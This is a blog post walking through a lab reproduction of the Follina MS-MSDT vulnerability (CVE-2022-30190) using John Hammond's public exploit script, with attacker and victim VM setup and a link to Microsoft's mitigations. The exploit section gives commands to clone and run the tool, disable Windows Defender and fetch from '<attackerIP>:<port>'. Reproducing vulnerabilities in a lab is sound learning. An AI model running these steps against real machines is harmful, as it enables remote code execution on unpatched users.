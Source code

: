 ```yaml
---
title:  "Zero-Day CVE-2022-30190 MS-MSDT Follina"
excerpt: "In this post I will show you the MS-MSDT Follina vulnerability (CVE-2022-30190)."
mathjax: true
layout: post
categories:
    -- github
    -- website
---
```


1 . Introduction
<br>
2 . My Setup
<br>
3 . Exploit in Action!
<br>
4 . Mitigations
<br>
---

## This post is designed to teach you how to exploit the MS-MSDT Follina vulnerability!

---

### 1. Introduction

*I want to give thanks and credit to **John Hammond** and his work with the Huntress team identifying and showing exactly how this vulnerability can be exploited! Check out his [Youtube](https://www.youtube.com/watch?v=dGCOhORNKRk&ab_channel=JohnHammond) or the Huntress [blog](https://www.huntress.com/blog/microsoft-office-remote-code-execution-follina-msdt-bug).*

- At the bottom of this blog post I have a short GIF showing the exploit in action.

- CVE-2022-30190 is a vulnerability which has been announced and unpatched for the past 2 days as of writing this article.

- The vulnerability takes advantage of the Microsoft Diagnostics Tool (MSDT) and other Microsoft utilities. 

- Basically, the attacker can send you a seemingly harmless word document, however, once you open the document (or even preview pane) the malicious remote code execution happens and the attacker has just infected your computer with a virus, a command and control access point, crypto coin miner, backdoor, etc. 

---

### 2. My Setup

For my attack computer I ran kali Linux in VMWare Workstation 16 player using NAT and HOST virtualized ethernet adapters. [Kali](https://www.kali.org/get-kali/#kali-virtual-machines)

I ran my victim computer on an evaluation Windows 11 virtualized machine in VMWare Workstation 16 player using a HOST-Only virtualized ethernet adapter. [Windows 11 Evaluation](https://developer.microsoft.com/en-us/windows/downloads/virtual-machines/)

---

### 3. Exploit in Action!

John Hammond made the exploit accessible via his GitHub [here](https://github.com/JohnHammond/msdt-follina) as a simple python script which creates the malicious file, opens a listener, and hosts the malicious file.

**Prior to starting the exploit:**

You may have malware protection and defender services for your endpoint hosting these Virtual Machines. It may stop your virtual machines from transferring and running the python script. Therefore, at your discretion you may need to turn off these services to see the functional exploit. 

*Proceed at your own risk*

**On Attack Device**


    #Step 1: 

    git clone https://github.com/JohnHammond/msdt-follina.git

    #Step 2:
    python3 Follina.py -r <port number of choice>

**On victim**

    #Step 3: Disable Windows Defender Real-Time Protection
![realtime](https://raw.githubusercontent.com/matthewomccorkle/matthewomccorkle.github.io/master/_posts/assets/real-time.PNG)

    #Step 4: Open Powershell

    #Step 5:
    wget <attackerIP>:<port chosen in step 2>

You should have seen the Microsoft Diagnostics Tool load, and then you received connection at your listener on the attacking computer.

![gif](https://github.com/matthewomccorkle/matthewomccorkle.github.io/blob/a6f21de03fffc6c24b07f22c5f507cfe2e364aa4/_posts/assets/follina.gif?raw=true)

### 4. Mitigations

See the current response from [Microsoft](https://msrc-blog.microsoft.com/2022/05/30/guidance-for-cve-2022-30190-microsoft-support-diagnostic-tool-vulnerability/) on how to mitigate the issue until a patch is released. 